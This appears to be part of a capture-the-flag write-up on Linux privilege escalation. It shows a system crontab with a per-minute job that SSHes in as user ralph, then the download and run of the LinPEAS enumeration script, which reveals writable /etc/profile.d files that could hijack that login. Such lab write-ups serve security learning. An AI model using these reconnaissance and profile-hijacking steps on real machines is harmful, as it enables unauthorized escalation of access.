 **View the contents of the system crontab to discover a script that runs as user "ralph" every minute:**

```bash
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	ralph	/home/ralph/tools/ssh.sh
```

**View the contents of the cron script to see that the user ralph is logging into the local system every minute when the cron job runs:**

```bash
cat /home/ralph/tools/ssh.sh
#!/bin/bash
/usr/bin/ssh -o "StrictHostKeyChecking no" ralph@localhost -i /home/ralph/.ssh/id_rsa
```

**Run [[Linpeas]] and see that we have write access to** `/etc/profile.d`

```bash
...randy@ephemeral:/home/randy$ python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
<eleases/latest/download/linpeas.sh', 'linpeas.sh')"

randy@ephemeral:/home/randy$ bash linpeas.sh
...
╔══════════╣ Files (scripts) in /etc/profile.d/
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#profiles-files                                                                         
total 48                                                                                                                                                  
drwxr-xr-x   2 randy root  4096 Apr  9  2022 .
drwxr-xr-x 132 root  root 12288 Apr 10  2022 ..
-rw-r--r--   1 randy root    97 Apr  9  2022 01-locale-fix.sh
-rw-r--r--   1 randy root   835 Feb 18  2022 apps-bin-path.sh
-rw-r--r--   1 randy root   729 Feb  1  2020 bash_completion.sh
-rw-r--r--   1 randy root  1003 Aug 13  2019 cedilla-portuguese.sh
-rw-r--r--   1 randy root   349 Oct 28  2020 im-config_wayland.sh
-rw-r--r--   1 randy root  1368 Apr  9  2022 vte-2.91.sh
-rw-r--r--   1 randy root   967 Apr  9  2022 vte.csh
-rw-r--r--   1 randy root   954 Mar 26  2020 xdg_dirs_desktop_session.sh
You have write privileges over /etc/profile.d/
You have write privileges over /etc/profile.d/cedilla-portuguese.sh
/etc/profile.d/01-locale-fix.sh
```